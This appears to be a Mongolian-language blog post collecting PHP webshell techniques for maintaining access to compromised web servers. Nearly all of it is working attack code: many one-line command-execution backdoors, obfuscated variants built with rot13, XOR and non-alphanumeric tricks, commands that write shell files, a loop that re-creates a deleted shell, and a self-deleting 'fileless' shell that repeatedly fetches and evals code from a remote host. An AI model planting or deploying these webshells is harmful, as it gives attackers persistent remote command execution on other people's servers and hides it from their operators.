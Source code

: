 ```yaml
---
published: true
---
```

## Webshell Hacking Techniques by fg0d

<p align="center">
🐱‍💻 Зочилсон хүний тоо 🐱‍💻 
</p>
<p align="center">
  <img src="https://profile-counter.glitch.me/{2021-10-03-Webshell-Hacking-Techniques}/count.svg">
</p>

<p align="center">
<img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hackedd.jpg">
</p>

Веб аппликэйшнрүү довтолгоо хийх үеийн **Maintaining Access** хэсэгт **Webshell** -г ашигладаг бөгөөд энэ нь тухайн серверлүү алсын зайнаас хүссэн тушаалыг биелүүлэх боломжтой болгодог.

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
<form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag гэсэн base64 шүү

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo Export a sentence

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// No echo backdoor  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// Webshell without alphanumeric
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");

A=fl;B=ag;cat $A$B
```

## Webshell resident memory

```php
<?php
    ignore_user_abort(true);  // Ignore disconnection
    set_time_limit(0);  // Set no upper limit of execution time
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## Fileless webshell

```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```
